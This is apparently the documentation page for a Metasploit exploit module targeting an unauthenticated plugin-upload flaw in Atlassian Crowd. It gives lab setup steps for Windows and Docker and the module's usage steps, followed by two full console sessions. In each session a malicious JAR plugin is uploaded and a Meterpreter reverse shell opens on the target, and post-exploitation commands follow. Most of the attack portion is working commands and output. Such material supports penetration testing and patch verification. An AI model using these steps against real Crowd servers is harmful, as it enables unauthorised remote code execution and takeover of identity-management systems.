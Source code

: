 ## Vulnerable Application

Atlassian Crowd 2.1.x prior to 3.0.5, 3.1.x prior to 3.1.6, 3.2.x prior to 3.2.8, 3.3.x prior to 3.3.5, and 3.4.x prior to 3.4.4
had an incorrect installation of the pdkinstall development plugin, which allows unauthenticated remote attackers to upload and install
arbitrary plugins on vulnerable Atlassian Crowd and Atlassian Crowd Data Center installations via a POST request to the
`/<crowd install base>/admin/uploadplugin.action` page.

Successful exploitation results in remote code execution as the user running the Atlassian Crowd server.

To set up a vulnerable Windows 10 installation:
1. Grab a copy of Windows, any version will do but I tested on Windows 10.
1. Grab a copy of the 3.0.3 version of Atlassian Crowd from https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.0.3.zip
1. Grab a copy of the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Extract the Atlassian Crowd zip.
1. Edit the `atlassian-crowd-3.0.3\apache-tomcat\bin\catalina.bat` file and remove all the `-Djava.endorsed.dirs` options.
1. Run `start_crowd.bat`
1. After a few minutes browse to `http://localhost:8095/crowd/` and click the blue `Set Up Crowd` button to do a new install.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.


To set up a vulnerable 3.2.1 JDK 8 Docker image:
1. `sudo docker volume create --name crowdVolume`
1. `sudo docker run -v crowdVolumeddd:/var/atlassian/application-data/crowd --name="crowd3.2.1" -d -p 8095:8095 atlassian/crowd:3.2.1-jdk8`
1. Wait for install to finish then browse to `http://localhost:8095/`.
1. Click the blue `Set Up Crowd` button to do a new install.
1. If the Docker image crashes at this point, increase the amount of memory allocated towards it. Java requires a fair bit of memory.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.

## Verification Steps

1. Follow the steps in `Vulnerable Application`
1. `use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce`
1. Set `RHOST` to the target IP
1. Set `LHOST` to your local IP
1. `exploit`
1. You should get a shell back as the user running the Atlassian Crowd application.

## Options

## Scenarios

### Atlassian Crowd 3.0.3 on Windows 10 20H2
```
msf > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 192.168.224.204
RHOSTS => 192.168.224.204
msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 192.168.224.128
LHOST => 192.168.224.128
msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.224.204  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Cloud
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try install an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating its vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 192.168.224.204
[*] Meterpreter session 1 opened (192.168.224.128:4444 -> 192.168.224.204:53871) at 2021-07-30 11:56:38 -0500

meterpreter > getuid
Server username: test
meterpreter > pwd
C:\Users\test\Desktop\atlassian-crowd-3.0.3
meterpreter >
```

### Atlassian Cloud 3.2.1 Linux Docker Image
```
msf > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Crowd
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > check

[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] 127.0.0.1:8095 - The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
msf exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:39316) at 2021-08-02 10:56:47 -0500

meterpreter > sysinfo
Computer    : 3fc6d7283aaa
OS          : Linux 5.8.0-63-generic (amd64)
Meterpreter : java/linux
meterpreter > getuid
Server username: crowd
meterpreter > pwd
/opt/atlassian/crowd
meterpreter > ls
Listing: /opt/atlassian/crowd
=============================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100444/r--r--r--  1254   fil   2018-05-09 05:36:38 -0500  README.txt
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:10 -0500  apache-tomcat
100444/r--r--r--  252    fil   2018-05-09 05:36:38 -0500  build.bat
100444/r--r--r--  650    fil   2018-05-09 05:36:38 -0500  build.properties
100554/r-xr-xr--  204    fil   2018-05-09 05:36:38 -0500  build.sh
100444/r--r--r--  2847   fil   2018-05-09 05:36:38 -0500  build.xml
40554/r-xr-xr--   4096   dir   2018-05-09 06:01:28 -0500  client
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-openidclient-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:14 -0500  crowd-openidserver-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-webapp
40776/rwxrwxrw-   4096   dir   2021-07-30 17:03:57 -0500  database
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:09 -0500  etc
40554/r-xr-xr--   32768  dir   2021-07-13 01:52:15 -0500  licenses
100444/r--r--r--  407    fil   2018-05-09 05:36:38 -0500  start_crowd.bat
100554/r-xr-xr--  324    fil   2018-05-09 05:36:38 -0500  start_crowd.sh
100444/r--r--r--  98     fil   2018-05-09 05:36:38 -0500  stop_crowd.bat
100554/r-xr-xr--  71     fil   2018-05-09 05:36:38 -0500  stop_crowd.sh

meterpreter >
```
